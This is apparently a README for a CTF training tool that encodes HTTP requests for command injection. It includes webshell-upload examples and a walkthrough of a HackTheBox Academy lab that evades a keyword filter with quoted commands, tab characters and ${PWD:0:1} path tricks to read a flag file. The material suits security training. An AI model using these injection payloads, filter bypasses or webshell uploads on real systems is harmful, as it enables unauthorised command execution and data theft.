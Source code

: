 # Request Encoder

Request Encoder is a module that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

## Examples

The tool accept three kind of input formats injected into `-p`:

* `-i`: a string that is injected into
* `-w`: a wordlist (one string per line)
* `-I`: a file whose content will be inline using `\n`

```bash
$ onectf request -u 'URL' -v -X POST -p uid -w uids
```

By default, assuming the parameter is `-p param`, then the parameter will be injected into the URL (`GET`) or in the body (`POST/...`). Some websites are not using parameters, e.g., they send `body: xxx` instead of `body: param=xxx`.

* Use `--json` when there is no parameter and the payload is JSON
* Use `--raw` when there is no parameter

```bash
$ onectf request -u 'URL' -v -X PUT --json -I request.json
$ onectf request -u 'URL' -v -X POST --raw -I request.xml
```

For JSON request, you can process to some extend complex payloads:

```bash
$ onectf request -u 'URL' -v -X POST --json --pjson '{"name":"xxx", "file":"$_INJECT_$"}' -I webshell.php --tamper data_base64
$ onectf request  -u 'URL' -v -X POST --json --jsonp '{"id":"xxx", "body":"data:application/x-php;base64,$_INJECT_$"}' -I web_shell.php --tamper base64
```

Aliases are automatically enabled by default. You can use:

* `<q>` instead of `'` (quote)
* `<er>` instead of `2>&1` (error redirection)
* `<tab>` for a tabulation character
* `<m>` instead of `-` (minus)
* `<crlf>` instead of `%0D%0A` (`\r\n`)
* `<lf>` instead of `%0A` (`\n`)

```bash
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -p param -i 'echo <q>Hello<q>'
$ onectf request -u 'URL' -v -X POST -p param -i 'xxx<lf>whoami'
```

You can select with tamper script to apply:

```bash
$ onectf request -u 'URL' -v -X POST -p param --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X GET -p 'param' -w uids -f html --tamper base64
```

While fuzzing is not the primary purpose:

```bash
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
$ onectf request -u 'URL/FUZZ' -X GET --fuzz -H 'Cookie: session=XXX; HttpOnly; Path=/' -w uids -f json
```

You can use `-f` to select a specific output format:

```bash
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' -f raw
$ onectf request -u 'URL' -v -X POST -p 'uid' -w uids -f html
$ onectf request -u 'URL/FUZZ' -v -X GET --fuzz -w uids -f json
```

## Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```bash
$ onectf request -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```